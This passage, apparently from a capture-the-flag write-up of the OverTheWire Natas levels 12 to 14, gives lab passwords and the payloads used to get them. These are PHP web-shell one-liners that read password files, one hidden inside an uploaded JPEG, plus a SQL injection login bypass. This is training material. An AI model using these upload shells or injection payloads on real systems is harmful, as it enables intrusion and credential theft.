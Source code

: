 ```
<?php system("cat /etc/natas_webpass/natas13"); ?>
```

To change file name to .php use burp. Aftel all you will get password.

password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

# ## [Level 12 -> Level 13](https://overthewire.org/wargames/natas/natas13.html)

Username: natas13
Lab URL: http://natas13.natas.labs.overthewire.org/

Create valid jpeg file, and add to it: 

```
<?php system("cat /etc/natas_webpass/natas14"); ?>
```

![Password](assets/natas/13/password.png)

password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1


# ## [Level 14 -> Level 15](https://overthewire.org/wargames/natas/natas14.html)

Username: natas14
Lab URL: http://natas14.natas.labs.overthewire.org/

Classic SQL injection, payload: 

```
username: natas15 " or "1" =" 1 
password: Anything you want
```

![Password]()

password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

# ## [Level 15 -> Level 16](https://overthewire.org/wargames/natas/natas16.html)
